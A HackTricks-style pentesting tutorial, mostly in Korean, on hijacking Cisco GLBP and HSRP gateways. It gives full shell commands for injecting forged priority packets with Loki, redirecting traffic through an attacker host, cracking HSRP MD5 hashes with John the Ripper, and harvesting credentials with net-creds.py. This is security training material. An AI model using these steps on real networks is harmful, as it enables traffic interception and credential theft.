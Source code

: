 # GLBP & HSRP Attacks

{{#include ../../banners/hacktricks-training.md}}


## FHRP Hijacking Overview

### Insights into FHRP

FHRP는 여러 라우터를 단일 가상 장치로 통합하여 네트워크의 강인성을 제공하도록 설계되었습니다. 이를 통해 부하 분산 및 장애 내성이 향상됩니다. Cisco Systems는 GLBP 및 HSRP와 같은 이 제품군의 주요 프로토콜을 도입했습니다.

### GLBP Protocol Insights

Cisco의 GLBP는 TCP/IP 스택에서 작동하며, 통신을 위해 포트 3222에서 UDP를 사용합니다. GLBP 그룹의 라우터는 3초 간격으로 "hello" 패킷을 교환합니다. 라우터가 10초 동안 이러한 패킷을 전송하지 않으면 오프라인으로 간주됩니다. 그러나 이러한 타이머는 고정되어 있지 않으며 수정할 수 있습니다.

### GLBP Operations and Load Distribution

GLBP는 단일 가상 IP와 여러 가상 MAC 주소를 사용하여 라우터 간의 부하 분산을 가능하게 하여 두드러집니다. GLBP 그룹 내의 모든 라우터는 패킷 전달에 참여합니다. HSRP/VRRP와 달리 GLBP는 여러 메커니즘을 통해 진정한 부하 분산을 제공합니다:

- **Host-Dependent Load Balancing:** 호스트에 일관된 AVF MAC 주소 할당을 유지하여 안정적인 NAT 구성을 위해 필수적입니다.
- **Round-Robin Load Balancing:** 요청하는 호스트 간에 AVF MAC 주소 할당을 번갈아 가며 수행하는 기본 접근 방식입니다.
- **Weighted Round-Robin Load Balancing:** 미리 정의된 "Weight" 메트릭에 따라 부하를 분산합니다.

### Key Components and Terminologies in GLBP

- **AVG (Active Virtual Gateway):** MAC 주소를 피어 라우터에 할당하는 주요 라우터입니다.
- **AVF (Active Virtual Forwarder):** 네트워크 트래픽을 관리하도록 지정된 라우터입니다.
- **GLBP Priority:** AVG를 결정하는 메트릭으로, 기본값은 100이며 1에서 255 사이의 값을 가집니다.
- **GLBP Weight:** 라우터의 현재 부하를 반영하며, 수동으로 또는 Object Tracking을 통해 조정할 수 있습니다.
- **GLBP Virtual IP Address:** 모든 연결된 장치의 네트워크 기본 게이트웨스로 사용됩니다.

GLBP는 예약된 멀티캐스트 주소 224.0.0.102와 UDP 포트 3222를 사용하여 상호작용합니다. 라우터는 3초 간격으로 "hello" 패킷을 전송하며, 10초 동안 패킷이 누락되면 비작동으로 간주됩니다.

### GLBP Attack Mechanism

공격자는 우선 순위 값(255)이 가장 높은 GLBP 패킷을 전송하여 주요 라우터가 될 수 있습니다. 이는 DoS 또는 MITM 공격으로 이어질 수 있으며, 트래픽 가로채기 또는 리디렉션을 허용합니다.

### Executing a GLBP Attack with Loki

[Loki](https://github.com/raizo62/loki_on_kali)는 우선 순위와 가중치를 255로 설정한 패킷을 주입하여 GLBP 공격을 수행할 수 있습니다. 공격 전 단계에는 가상 IP 주소, 인증 존재 여부 및 라우터 우선 순위 값을 Wireshark와 같은 도구를 사용하여 수집하는 것이 포함됩니다.

Attack Steps:

1. 프로미스큐어스 모드로 전환하고 IP 포워딩을 활성화합니다.
2. 대상 라우터를 식별하고 IP를 검색합니다.
3. Gratuitous ARP를 생성합니다.
4. AVG를 가장하여 악성 GLBP 패킷을 주입합니다.
5. 공격자의 네트워크 인터페이스에 GLBP 가상 IP를 미러링하여 보조 IP 주소를 할당합니다.
6. 전체 트래픽 가시성을 위해 SNAT를 구현합니다.
7. 원래 AVG 라우터를 통해 계속 인터넷에 접근할 수 있도록 라우팅을 조정합니다.

이 단계를 따르면 공격자는 "중간자"로 자리 잡아 네트워크 트래픽을 가로채고 분석할 수 있으며, 여기에는 암호화되지 않은 민감한 데이터가 포함됩니다.

For demonstration, here are the required command snippets:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
모니터링 및 트래픽 가로채기는 net-creds.py 또는 유사한 도구를 사용하여 손상된 네트워크를 통해 흐르는 데이터를 캡처하고 분석할 수 있습니다.

### HSRP 하이재킹의 수동 설명 및 명령 세부정보

#### HSRP(핫 스탠바이 라우터/중복 프로토콜) 개요

HSRP는 네트워크 게이트웨이 중복을 위해 설계된 Cisco의 독점 프로토콜입니다. 여러 물리적 라우터를 단일 논리 단위로 구성하고 공유 IP 주소를 사용할 수 있습니다. 이 논리 단위는 트래픽을 관리하는 기본 라우터에 의해 관리됩니다. GLBP와 달리 HSRP는 트래픽 관리를 위해 단일 활성 라우터에 의존합니다.

#### HSRP의 역할 및 용어

- **HSRP 활성 라우터**: 트래픽 흐름을 관리하는 게이트웨이 역할을 하는 장치입니다.
- **HSRP 대기 라우터**: 활성 라우터가 실패할 경우 인계할 준비가 된 백업 라우터입니다.
- **HSRP 그룹**: 단일 탄력적인 가상 라우터를 형성하기 위해 협력하는 라우터 집합입니다.
- **HSRP MAC 주소**: HSRP 설정에서 논리 라우터에 할당된 가상 MAC 주소입니다.
- **HSRP 가상 IP 주소**: 연결된 장치의 기본 게이트웨이 역할을 하는 HSRP 그룹의 가상 IP 주소입니다.

#### HSRP 버전

HSRP는 HSRPv1과 HSRPv2의 두 가지 버전이 있으며, 주로 그룹 용량, 멀티캐스트 IP 사용 및 가상 MAC 주소 구조에서 차이가 있습니다. 이 프로토콜은 서비스 정보 교환을 위해 특정 멀티캐스트 IP 주소를 사용하며, Hello 패킷은 매 3초마다 전송됩니다. 10초 간 패킷이 수신되지 않으면 라우터는 비활성으로 간주됩니다.

#### HSRP 공격 메커니즘

HSRP 공격은 최대 우선 순위 값을 주입하여 활성 라우터의 역할을 강제로 인수하는 것입니다. 이는 중간자 공격(MITM)으로 이어질 수 있습니다. 공격 전 필수 단계에는 HSRP 설정에 대한 데이터 수집이 포함되며, 이는 Wireshark를 사용하여 트래픽 분석을 통해 수행할 수 있습니다.

#### HSRP 인증 우회 단계

1. HSRP 데이터가 포함된 네트워크 트래픽을 .pcap 파일로 저장합니다.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. hsrp2john.py를 사용하여 .pcap 파일에서 MD5 해시를 추출합니다.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. John the Ripper를 사용하여 MD5 해시를 크랙합니다.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Loki를 사용한 HSRP 주입 실행**

1. Loki를 실행하여 HSRP 광고를 식별합니다.
2. 네트워크 인터페이스를 프로미스큐어스 모드로 설정하고 IP 포워딩을 활성화합니다.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Loki를 사용하여 특정 라우터를 타겟으로 하고, 크랙된 HSRP 비밀번호를 입력한 후 활성 라우터를 가장하기 위한 필요한 구성을 수행합니다.
4. 활성 라우터 역할을 얻은 후, 네트워크 인터페이스 및 IP 테이블을 구성하여 합법적인 트래픽을 가로챕니다.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. 라우팅 테이블을 수정하여 트래픽을 이전 활성 라우터를 통해 라우팅합니다.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. net-creds.py 또는 유사한 유틸리티를 사용하여 가로챈 트래픽에서 자격 증명을 캡처합니다.
```shell
sudo python2 net-creds.py -i eth0
```

이 단계를 실행하면 공격자는 GLBP 하이재킹 절차와 유사하게 트래픽을 가로채고 조작할 수 있는 위치에 놓이게 됩니다. 이는 HSRP와 같은 중복 프로토콜의 취약성을 강조하며 강력한 보안 조치의 필요성을 나타냅니다.

## 참고문헌

- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)


{{#include ../../banners/hacktricks-training.md}}
